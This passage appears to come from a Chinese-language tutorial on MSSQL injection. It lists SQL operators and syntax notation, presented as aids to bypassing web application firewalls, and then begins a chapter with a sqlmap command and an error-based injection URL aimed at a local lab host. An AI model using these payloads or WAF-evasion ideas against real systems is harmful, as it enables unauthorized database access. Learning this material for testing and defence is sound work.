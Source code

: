 ```
IN  如果操作数等于表达式列表中的一个，那么结果为true
LIKE    如果操作数与某种模式相匹配，那么结果为true
NOT 对任何其他布尔运算符的结果值取反
OR  如果两个布尔表达式中的任何一个为true，那么结果为true
SOME    如果在一组比较中，有些比较为true，那么结果为true

```


### 0x03 语法定义符号

```

< > 尖括号，用于分隔字符串，字符串为语法元素的名称，SQL语言的非终结符。


::= 定义操作符。用在生成规则中，分隔规则定义的元素和规则定义。 被定义的元素位于操作符的左边，规则定义位于操作符的右边。


[ ] 方括号表示规则中的可选元素。方括号中的规则部分可以明确指定也可以省略。


{ } 花括号聚集规则中的元素。在花括号中的规则部分必须明确指定。


() 括号是分组运算符

```


跟mysql一样，熟练的了解这些数据库的符号特性，有利于我们绕过WAF。



# 第四章 MSSQL注入基本流程

### 0x00 第一个注入

建议大家可以本地搭建后用sqlmap注入查看他的注入语句

```
sqlmap -u "http://192.168.130.137/1.aspx?id=1"  --is-dba -v3

```

判断当前数据库

```
http://192.168.130.137/1.aspx?id=1'and db_name()>0;--

```
